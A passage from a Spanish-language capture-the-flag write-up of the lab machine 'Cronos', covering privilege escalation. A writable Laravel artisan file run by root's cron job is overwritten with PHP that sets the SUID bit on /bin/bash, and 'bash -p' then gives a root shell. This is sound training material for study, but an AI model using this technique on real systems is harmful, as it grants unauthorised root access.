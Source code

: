 ```bash
./usr/bin/pkexec
./usr/bin/newgidmap
./usr/bin/gpasswd
./usr/bin/passwd
www-data@cronos:/$ 
```

No vemos nada interesante, así que vamos a generar nuestro archivo de confianza [ProcMon](/procmon) para ver si se está realizando una tarea a intervalos regulares (que debería ya que el nombre de la máquina da pista a *cron*)

```bash
www-data@cronos:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
> php /var/www/laravel/artisan schedule:run
< /usr/sbin/CRON -f
< /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
< php /var/www/laravel/artisan schedule:run
> [kworker/u4:2]
^C
www-data@cronos:/dev/shm$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
www-data@cronos:/dev/shm$
```

Y vemos que se está ejecutando a través de php el recurso `/var/www/laravel/artisan` del cual nosotros como **www-data** somos propietario y podemos alterar su contenido; por lo tanto vamos a modificar su contenido a uno que nos permita convertirnos en **root** (suponiendo que dicho usuario es quien realiza la tarea).

```bash
www-data@cronos:/dev/shm$ cat /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
www-data@cronos:/dev/shm$
```

Ahora esperamos que el usuario **root** nos ejecute nuestro archivo y le otorgue permisos SUID a `/bin/bash`.

```bash
www-data@cronos:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
www-data@cronos:/dev/shm$ bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
